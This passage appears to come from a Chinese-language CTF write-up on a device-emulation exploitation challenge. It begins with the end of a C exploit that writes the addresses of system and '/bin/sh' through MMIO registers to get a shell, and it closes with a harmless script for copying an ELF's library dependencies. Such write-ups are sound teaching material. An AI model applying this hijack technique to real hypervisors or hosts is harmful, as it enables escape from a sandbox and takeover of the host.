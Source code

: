 ```c
    mmio_write(4, system & 0xffffffff);

    mmio_write(0, 0x13);
    mmio_write(4, binsh & 0xffffffff);
    mmio_write(0, 0x14);
    mmio_write(4, binsh >> 32);

    mmio_write(0xc, 0);



    
    return 0;
}



```

这里我们已经拿到了 `/bin/sh`，但是出于某种原因没办法交互（管道冲突？），在 docker 中可以正常打

### attachs

这里丢了一些调试的时候用到的脚本

#### ldd_copier.sh

用于从 docker 中一键拉一个 elf 的所有依赖，方便后面用 `LD_LIBRARY_PATH` 指定

```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <source_file> <destination_directory>"
    exit 1
fi

SOURCE_FILE="$1"
DESTINATION_DIR="$2"

if [ ! -f "$SOURCE_FILE" ]; then
    echo "Error: Source file '$SOURCE_FILE' does not exist."
    exit 1
fi

if [ ! -d "$DESTINATION_DIR" ]; then
    mkdir -p "$DESTINATION_DIR"
fi

ldd "$SOURCE_FILE" 2>/dev/null | awk '
    /=> \// && !/linux-vdso/ { print $3 }
    /^\// && !/linux-vdso/ { print $1 }
' | while read -r DEPENDENCY; do
    if [ -f "$DEPENDENCY" ]; then
        REALPATH=$(realpath "$DEPENDENCY")
        cp -v "$REALPATH" "$DESTINATION_DIR/$(basename "$DEPENDENCY")"
    else
        echo "Warning: Dependency '$DEPENDENCY' not found."
    fi
done
echo "All dependencies copied to '$DESTINATION_DIR'."
```
